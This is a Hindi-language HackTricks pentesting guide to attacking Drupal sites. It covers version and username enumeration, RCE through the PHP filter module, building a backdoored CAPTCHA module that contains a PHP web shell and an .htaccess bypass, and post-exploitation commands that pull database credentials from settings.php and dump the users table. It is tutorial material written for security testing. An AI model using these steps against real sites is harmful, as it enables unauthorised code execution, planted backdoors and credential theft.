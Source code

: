 # Drupal

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह में शामिल हों**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपनी हैकिंग ट्रिक्स साझा करें, HackTricks** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके.

</details>

## खोज

* **मेटा** की जांच करें
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Node**: Drupal **अपनी सामग्री को नोड्स का उपयोग करके इंडेक्स करता है**। एक नोड **कुछ भी रख सकता है** जैसे कि ब्लॉग पोस्ट, पोल, लेख, आदि। पेज URIs आमतौर पर `/node/<nodeid>` के रूप में होते हैं।
```bash
curl drupal-site.com/node/1
```
## परिगणना

Drupal मूल रूप से **तीन प्रकार के उपयोगकर्ता** का समर्थन करता है:

1. **`Administrator`**: इस उपयोगकर्ता के पास Drupal वेबसाइट पर पूर्ण नियंत्रण होता है।
2. **`Authenticated User`**: ये उपयोगकर्ता वेबसाइट में लॉग इन कर सकते हैं और अपनी अनुमतियों के आधार पर लेख जोड़ने और संपादित करने जैसे कार्य कर सकते हैं।
3. **`Anonymous`**: सभी वेबसाइट आगंतुकों को अनाम के रूप में नामित किया जाता है। मूल रूप से, इन उपयोगकर्ताओं को केवल पोस्ट पढ़ने की अनुमति होती है।

### संस्करण

* `/CHANGELOG.txt` की जाँच करें
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
Drupal की नई स्थापनाएँ डिफ़ॉल्ट रूप से `CHANGELOG.txt` और `README.txt` फ़ाइलों तक पहुँच को अवरुद्ध करती हैं।
{% endhint %}

### यूजरनेम अनुमान

#### रजिस्टर

_/user/register_ में बस एक यूजरनेम बनाने की कोशिश करें और अगर नाम पहले से लिया गया है तो इसकी सूचना दी जाएगी:

![](<../../.gitbook/assets/image (254).png>)

#### नया पासवर्ड अनुरोध

अगर आप मौजूदा यूजरनेम के लिए नया पासवर्ड अनुरोध करते हैं:

![](<../../.gitbook/assets/image (255).png>)

अगर आप गैर-मौजूदा यूजरनेम के लिए नया पासवर्ड अनुरोध करते हैं:

![](<../../.gitbook/assets/image (256).png>)

### यूजर्स की संख्या प्राप्त करें

_/user/\<number>_ तक पहुँचकर आप मौजूदा यूजर्स की संख्या देख सकते हैं, इस मामले में 2 है क्योंकि _/users/3_ एक नहीं मिला त्रुटि देता है:

![](<../../.gitbook/assets/image (257).png>)

![](<../../.gitbook/assets/image (227) (1) (1).png>)

### छिपे हुए पेज

**`/node/$` को Fuzz करें जहाँ `$` एक संख्या है** (उदाहरण के लिए 1 से 500 तक)।\
आप **छिपे हुए पेज** (टेस्ट, डेव) पा सकते हैं जो सर्च इंजनों द्वारा संदर्भित नहीं किए जाते हैं।

#### स्थापित मॉड्यूल की जानकारी
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### स्वचालित
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### PHP Filter Module के साथ

{% hint style="warning" %}
Drupal के पुराने संस्करणों में **(संस्करण 8 से पहले)**, एक व्यवस्थापक के रूप में लॉग इन करना और **`PHP filter` मॉड्यूल को सक्षम करना** संभव था, जो "PHP कोड/स्निपेट्स का मूल्यांकन करने की अनुमति देता है।"
{% endhint %}

आपको **plugin php का इंस्टॉल होना आवश्यक है** (इसे _/modules/php_ पर जाकर जांचें और यदि यह **403** लौटाता है, तो, **मौजूद है**, यदि **नहीं मिला**, तो **plugin php इंस्टॉल नहीं है**)

_Modules_ पर जाएं -> (**जांचें**) _PHP Filter_ -> _Save configuration_

![](<../../.gitbook/assets/image (247) (1).png>)

फिर _Add content_ पर क्लिक करें -> _Basic Page_ या _Article_ चुनें -> _php shellcode को body में लिखें_ -> _Text format_ में _PHP code_ चुनें -> _Preview_ चुनें

![](<../../.gitbook/assets/image (253) (1).png>)

अंत में बस नए बनाए गए नोड को एक्सेस करें:
```bash
curl http://drupal-site.local/node/3
```
### PHP Filter Module स्थापित करें

संस्करण **8 के बाद से,** [**PHP Filter**](https://www.drupal.org/project/php/releases/8.x-1.1) **मॉड्यूल डिफ़ॉल्ट रूप से स्थापित नहीं होता है**। इस कार्यक्षमता का उपयोग करने के लिए, हमें **मॉड्यूल को स्वयं स्थापित करना होगा**।

1. Drupal वेबसाइट से मॉड्यूल का सबसे हाल का संस्करण डाउनलोड करें।
1. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
2. डाउनलोड हो जाने के बाद **`Administration`** > **`Reports`** > **`Available updates`** पर जाएं।
3. **`Browse`** पर क्लिक करें, फिर डाउनलोड की गई डायरेक्टरी से फाइल का चयन करें और फिर **`Install`** पर क्लिक करें।
4. मॉड्यूल स्थापित हो जाने के बाद, हम **`Content`** पर क्लिक कर सकते हैं और **नया बेसिक पेज बना सकते हैं**, जैसा कि हमने Drupal 7 के उदाहरण में किया था। फिर से, सुनिश्चित करें कि **`Text format` ड्रॉपडाउन से `PHP code` का चयन करें**।

### Backdoored Module

एक backdoored मॉड्यूल **मौजूदा मॉड्यूल में एक शेल जोड़कर** बनाया जा सकता है। मॉड्यूल्स drupal.org वेबसाइट पर पाए जा सकते हैं। चलिए [CAPTCHA](https://www.drupal.org/project/captcha) जैसे मॉड्यूल को चुनते हैं। नीचे स्क्रॉल करें और tar.gz [archive](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz) के लिंक को कॉपी करें।

* आर्काइव को डाउनलोड करें और इसकी सामग्री को निकालें।
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* **PHP वेब शेल** बनाएं जिसकी सामग्री हो:
```php
<?php
system($_GET["cmd"]);
?>
```
* अगला, हमें खुद को फोल्डर तक पहुँच प्रदान करने के लिए एक **`.htaccess`** फाइल बनाने की आवश्यकता है। यह जरूरी है क्योंकि Drupal सीधे **`/modules`** फोल्डर तक पहुँच को मना करता है।
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* ऊपर दिया गया कॉन्फ़िगरेशन / फ़ोल्डर के लिए नियम लागू करेगा जब हम /modules में किसी फ़ाइल का अनुरोध करते हैं। इन दोनों फ़ाइलों को captcha फ़ोल्डर में कॉपी करें और एक आर्काइव बनाएं।
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* मान लीजिए हमारे पास वेबसाइट का **प्रशासनिक पहुँच** है, **`प्रबंधन`** पर क्लिक करें और फिर साइडबार पर **`विस्तार`** पर क्लिक करें। अगला, **`+ नया मॉड्यूल स्थापित करें`** बटन पर क्लिक करें, और हमें स्थापना पृष्ठ पर ले जाया जाएगा, जैसे कि `http://drupal-site.local/admin/modules/install` बैकडोर्ड कैप्चा आर्काइव को ब्राउज़ करें और **`स्थापित करें`** पर क्लिक करें।
* स्थापना सफल होने के बाद, **`/modules/captcha/shell.php`** पर ब्राउज़ करें ताकि आदेशों को निष्पादित किया जा सके।

## पोस्ट एक्सप्लॉइटेशन

### settings.php पढ़ें
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### डीबी से उपयोगकर्ताओं की जानकारी निकालना
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## संदर्भ

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** 🐦 पर **मुझे फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>
